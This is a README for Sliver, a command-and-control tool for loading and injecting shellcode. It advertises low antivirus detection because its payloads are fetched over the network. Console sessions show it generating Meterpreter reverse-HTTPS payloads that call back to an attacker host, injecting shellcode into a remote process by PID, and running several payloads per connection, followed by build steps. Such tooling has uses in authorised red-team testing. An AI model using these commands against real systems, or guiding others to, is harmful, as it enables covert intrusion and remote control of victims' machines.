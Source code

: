 Sliver
======

![Sliver](/sliver/sliver.jpeg)

Sliver is a remote shellcode loading and injection service that uses end-to-end encryption (mTLS) for all network traffic. Implants are dynamically compiled with unique X.509 certificates signed by a per-instance certificate authority generated when you first run the binary. Sliver can load arbitrary shellcode but also integrates with MSFVenom to automatically generate, execute, and manage Meterpreter payloads. Sliver binaries have very low anti-virus detection as they do not contain any malicous code themselves and instead dynamically load it over the network.

Sliver can inject payloads into it's own process or optionally use remote thread injection to execute payloads in a remote processes to which your execution context has access.

```
[attacker] <-(mTLS)-> [sliver] -(code injection)-> [remote process]
```

### Setup

1. Install Metasploit Framework v5 or later
2. Download the [Sliver]() binary
3. ???
4. Shellz

### Local Thread Execution

Execute shellcode in the local process:

```
sliver (NURSING_BEETLE) > msf -lhost 172.16.20.1
 msf -lhost 172.16.20.1
[*] Generating meterpreter_reverse_https windows/amd64 -> 172.16.20.1:4444 ...
[*] Successfully generated payload 207449 byte(s)
[*] Sending payload -> NURSING_BEETLE
[*] Sucessfully sent payload
```

### Remote Thread Injection

Inject shellcode into remote processes:

```
sliver (NURSING_BEETLE) > inject -pid 3100 -lhost 172.16.20.1
 inject -pid 3100 -lhost 172.16.20.1
[*] Generating meterpreter_reverse_https windows/amd64 -> 172.16.20.1:4444 ...
[*] Successfully generated payload 207449 byte(s)
[*] Sending payload -> NURSING_BEETLE -> PID: 3100
[*] Sucessfully sent payload
```

Sliver also has a built-in `ps` command.

### Multi-player Mode

Sliver can also execute multiple payloads per connection. This can be helpful if your meterpreter session dies, or if you want to play with friends:

```
sliver (STUPID_AIRBAG) > msf -lhost 172.16.20.1
 msf -lhost 172.16.20.1
[*] Generating windows/amd64 -> 172.16.20.1:4444 ...
[*] Successfully generated payload 207449 byte(s)
[*] Sending payload -> STUPID_AIRBAG
[*] Sucessfully sent payload
sliver (STUPID_AIRBAG) > msf -lhost 172.16.20.2
 msf -lhost 172.16.20.2
[*] Generating windows/amd64 -> 172.16.20.2:4444 ...
[*] Successfully generated payload 207449 byte(s)
[*] Sending payload -> STUPID_AIRBAG
[*] Sucessfully sent payload
```

## Compile From Source

You'll want to compile from a MacOS or Linux machine, compiling from Windows should work but none of the scripts are designed to run on Windows (you can compile the Windows binaries from MacOS or Linux).

Requirements:
* Metasploit Framework v5 or later
* Go v1.11 or later
* Make, sed, tar, wget, zip

Build thin server (for developement)

```
$ ./deps.sh
$ ./go-assets.sh
$ make
```

Statically compile and bundle server with all dependencies and assets:

```
$ make static-macos
$ make static-linux
$ make static-windows
```
